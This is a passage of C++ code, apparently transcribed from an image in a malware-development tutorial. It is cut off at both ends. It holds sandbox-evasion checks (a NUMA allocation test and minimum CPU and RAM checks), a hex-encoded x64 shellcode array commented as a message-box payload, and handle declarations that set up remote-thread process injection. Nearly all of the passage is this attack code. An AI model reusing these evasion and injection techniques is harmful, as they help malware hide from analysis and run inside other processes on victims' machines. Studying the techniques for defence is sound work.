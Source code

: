 ```cpp
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
  }
}

// resource check
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

```
